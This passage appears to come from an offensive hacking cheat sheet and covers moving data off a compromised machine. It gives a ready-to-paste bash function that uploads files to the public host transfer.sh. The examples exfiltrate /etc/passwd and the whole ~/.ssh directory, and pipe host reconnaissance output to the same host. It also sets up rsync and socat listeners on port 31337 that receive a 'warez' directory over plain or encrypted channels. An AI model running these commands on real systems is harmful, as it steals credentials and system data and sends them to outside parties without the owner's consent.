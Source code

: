 <a id="trans"></a>
### 4.viii. File transfer using a public dump

Cut & paste into your bash:
```sh
transfer() {
    [[ $# -eq 0 ]] && { echo -e >&2 "Usage:\n    transfer [file/directory]\n    transfer [name] <FILENAME"; return 255; }
    [[ ! -t 0 ]] && { curl -SsfL --progress-bar -T "-" "https://transfer.sh/${1}"; return; }
    [[ ! -e "$1" ]] && { echo -e >&2 "Not found: $1"; return 255; }
    [[ -d "$1" ]] && { (cd "${1}/.."; tar cfz - "${1##*/}")|curl -SsfL --progress-bar -T "-" "https://transfer.sh/${1##*/}.tar.gz"; return; }
    curl -SsfL --progress-bar -T "$1" "https://transfer.sh/${1##*/}"
}
```

then upload a file or a directory:
```sh
transfer /etc/passwd  # A single file
transfer ~/.ssh       # An entire directory
(curl ipinfo.io; hostname; uname -a; cat /proc/cpuinfo) | transfer "$(hostname)"
```
A list of our [favorite public upload sites](#cloudexfil).

---
<a id="rsync"></a>
### 4.ix. File transfer - using rsync

Ideal for synchronizing large amount of directories or re-starting broken transfers. The example transfers the directory '*warez*' to the Receiver using a single TCP connection from the Sender to the Receiver.

Receiver:
```posh
echo -e "[up]\npath=upload\nread only=false\nuid=$(id -u)\ngid=$(id -g)" >r.conf
mkdir upload
rsync --daemon --port=31337 --config=r.conf --no-detach
```

Sender:
```posh
rsync -av warez rsync://1.2.3.4:31337/up
```

The same encrypted (OpenSSL):

Receiver:
```posh
# use rsa:2048 if ed25519 is not supported (e.g. rsync connection error)
openssl req -subj '/CN=example.com/O=EL/C=XX' -new -newkey ed25519 -days 14 -nodes -x509 -keyout ssl.key -out ssl.crt
cat ssl.key ssl.crt >ssl.pem
rm -f ssl.key ssl.crt
mkdir upload
cat ssl.pem
socat OPENSSL-LISTEN:31337,reuseaddr,fork,cert=ssl.pem,cafile=ssl.pem EXEC:"rsync --server -logtprR --safe-links --partial upload"
```
